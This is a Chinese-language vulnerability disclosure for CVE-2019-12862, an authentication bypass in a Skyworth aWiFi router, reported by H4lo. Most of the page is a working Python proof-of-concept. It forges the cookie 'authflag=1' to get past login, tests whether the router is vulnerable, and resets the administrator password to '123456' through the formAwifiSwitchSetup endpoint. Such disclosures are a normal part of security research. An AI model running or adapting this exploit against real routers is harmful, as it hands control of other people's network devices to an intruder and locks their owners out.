

### 漏洞简介  

|漏洞名称|上报日期|漏洞发现者|产品首页|软件链接|版本|CVE编号|
--------|--------|---------|--------|-------|----|------|
|天翼创维awifi路由器存在多处未授权访问漏洞|2019-06-01|H4lo|[http://www.skyworth.com/](http://www.skyworth.com/)|[http://www.skyworth.com/](http://www.skyworth.com/)|Boa/0.94.14rc21|[CVE-2019-12862](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-12862)|

### 漏洞详情PDF：[详情](POC_Details/1.天翼创维awifi路由器存在多处未授权访问漏洞.pdf)

### POC实现代码如下：  

``` python
#coding: utf-8
#__author__: H4lo
import requests
import sys


payload = "authflag=1"
UA = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.75 Safari/537.36"
headers = {
    "User-Agent": UA,
    "Cookie": payload
}

def exp(ip):
    info = """1. Login with no password\n2. Change administrator's password\n"""
    print info
    op = int(raw_input("Enter the options:"))
    if op == 1:
        url = "http://" + str(ip)+"/home.htm"
        try:
            res = requests.get(url,headers=headers,timeout=5)
            if "title.htm" in res.text:
                print "[+] The router is vulnerable"
            else:
                print "[-] The router is not vulnerable"
        except Exception as e:
            print str(e)
            
    elif(op == 2):
        url = "http://" + str(ip) + "/boafrm/formAwifiSwitchSetup"
        data = {
            "olduserpass":"1",
            "newpass":"123456",
            "confirmnewpass":"123456",
            "submit-url":"/password.htm"
        }
        try:
            res = requests.post(url=url,headers=headers,data=data,timeout=5)
            if "restartNow" in res.text:
                print "[+] Password had be changed to 123456"
            else:
                print "[-] Some error!"
        except Exception as e:
            print str(e)
            
    else:
        print "error options!"
if __name__ == '__main__':
    ip = sys.argv[1]
    exp(ip)
```

---

### POC截图效果如下：


